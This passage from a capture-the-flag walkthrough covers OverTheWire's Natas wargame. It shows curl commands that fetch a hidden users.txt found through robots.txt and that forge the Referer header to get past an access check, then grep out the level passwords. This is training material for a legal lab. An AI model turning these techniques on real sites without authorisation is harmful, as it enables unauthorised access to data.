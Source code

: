 If we check the source code, we see this:

![natas3_1.jpg](screenshots/natas/natas3_1.jpg)

This is a hint to the `robots.txt` file, which then reveals a hidden directory, `s3cr3t`:

![natas3_2.jpg](screenshots/natas/natas3_2.jpg)

If we view the contents of [s3cr3t](http://natas3.natas.labs.overthewire.org/s3cr3t/), we see a file named [users.txt](http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt).

```bash
curl -s http://natas3:$natas3_pass@natas3.natas.labs.overthewire.org/s3cr3t/users.txt | egrep -o [[:alnum:]]{32}
```

[*Back to top*](#overthewire---natas)

## Level 4

![natas4_index.jpg](screenshots/natas/natas4_index.jpg)

When we connect to the site, we get a message saying only users from `http://natas5.natas.labs.overthewire.org/` are authorized. The way a website can tell where you're coming from is through the `Referer` header. We can set this with the `-e` or `--referer` option in `curl`.

```bash
curl -s http://natas4:$natas4_pass@natas4.natas.labs.overthewire.org/ -e http://natas5.natas.labs.overthewire.org/ | sed "s/$natas4_pass//g" | egrep -o [[:alnum:]]{32}
```

[*Back to top*](#overthewire---natas)

## Level 5
